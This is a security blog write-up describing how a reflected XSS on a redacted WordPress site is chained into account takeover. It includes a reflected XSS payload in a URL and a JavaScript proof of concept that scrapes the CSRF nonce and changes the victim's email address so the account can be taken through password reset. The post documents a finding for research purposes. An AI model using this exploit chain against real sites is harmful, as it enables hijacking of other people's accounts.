 ```yaml
---
title: "Reflected XSS to Account Takeover"
date: 2025-02-19
draft: false
description: "A reflected XSS bug turns into an ATO due to low security messures"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-bullseye"></i>  The Vulnerabillity
When researching an application, I noticed that there was a <span class="text-primary-400">feature for resetting the email address</span> of our user. Interestingly, when trying to change it, there was <span class="text-primary-400">no security mechanism verifying that the change was actually initiated by the user</span> of that account. Normally, there’s an extra step where the user must input their password or any other identification method.

So, the first thing that came to mind was trying to carry out a <span class="text-primary-400">CSRF attack</span>, where I force the user to change their email to mine. This would allow me to use the regular “forgot password” function from the website, then input the email address that was set in the victim’s account, receive the reset email, and change the password to a desired one. However, I quickly realized that <span class="text-primary-400">WordPress securely handled CSRF tokens</span> in this application, so I wasn’t able to take that route yet. The next idea was to <span class="text-primary-400">find an XSS vulnerability</span>, which would allow me to just read those tokens out of the HTML and submit the form with those automatically.

### Finding XSS
Luckily, during my research, I came across a simple reflected XSS in the application: `https://example.com/login/confirm_mail.php?email=<img/src/onerror=print()>`

### Creating the Exploit Script
The next step was to create the script that would automatically change the email address in the user’s settings. However, we first have to get the <span class="text-primary-400">nonce that Wordpress added to each form request</span>.

## <i class="fa-solid fa-file"></i> PoC

{{< highlight JS "linenos=false,hl_lines=5 12 19 23" >}}
fetch('https://example.com/edit-account/').then(response => response.text()).then(html => {
    // Fetch the nonce from vulnerable endpoint
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var nonce = doc.getElementById('save-account-details-nonce').value;
    console.log(nonce);

    // Change email
    fetch('https://example.com/edit-account/', {
        method: 'POST',
        // Include Cookies
        credentials: 'include',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `first_name=Test
        &last_name=Test
        &display_name=Test
        &email=<email we controll>
        &password_current=
        &password_1=
        &password_2=
        &save-account-details-nonce=${nonce}`
    })
    .then(response => {
        if (response.ok) {
            console.log("Done!");
        } else {
            console.log("Something went wrong..");
        }
    });
});
{{< /highlight >}}

The password parameters can be left empty, since the application only uses those, when a user wants to change their password via the UI on the website:

```
password_current=
password_1=
password_2=
```

<b class="text-primary-400">Explanation</b>: We first send a request to the vulnerable endpoint to retrieve the nonce:
`https://example.com/edit-account/`. The response is parsed, and the nonce is extracted from the HTML `doc.getElementById('save-account-details-nonce').value`. After that, we send a second request to the endpoint where we then fill out the forms details. This request includes the nonce and the attacker’s desired email address. The credentials parameter ensures cookies are included, maintaining the session context.

With this script in hand we can include it via our reflected XSS `https://example.com/login/confirm_mail.php?email={ATTACKER-SCRIPT}` and send it to a victim. After the script automatically updates the email address of the victim, we can use the already described way via the password reset function. <span class="text-primary-400">Thus, the account is fully compromised where the victim isn't even able to recover the account, since not only the password but also the email address changed</span>.